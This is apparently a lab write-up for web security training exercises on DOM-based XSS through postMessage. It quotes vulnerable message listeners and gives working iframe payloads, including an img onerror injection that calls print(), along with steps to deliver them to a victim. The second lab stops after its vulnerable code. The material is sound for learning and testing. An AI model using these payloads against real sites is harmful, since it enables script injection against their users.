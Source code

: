 ### DOM XSS using web messages
```bash

# This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

Go to:

view-source:https://ac581f321e3d6f77c093062d00bb00b5.web-security-academy.net/

Note:

<script>
window.addEventListener('message', function(e) {
document.getElementById('ads').innerHTML = e.data;
})
</script>

Go to: "Go to exploit server"

Change:

<iframe src="//https://ac581f321e3d6f77c093062d00bb00b5.web-security-academy.net/" onload="this.contentWindow.postMessage('print()','*')">

To

<iframe src="https://ac581f321e3d6f77c093062d00bb00b5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

Body:

<iframe src="https://ac581f321e3d6f77c093062d00bb00b5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

Store
Deliver exploit to victim

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220528213648.png)

### DOM XSS using web messages and a JavaScript URL
```bash

# This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

Go to:

view-source:https://ac581f321e3d6f77c093062d00bb00b5.web-security-academy.net/

Note:

<script>
window.addEventListener('message', function(e) {
var url = e.data;
if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
 location.href = url;
}
}, false);
</script>
```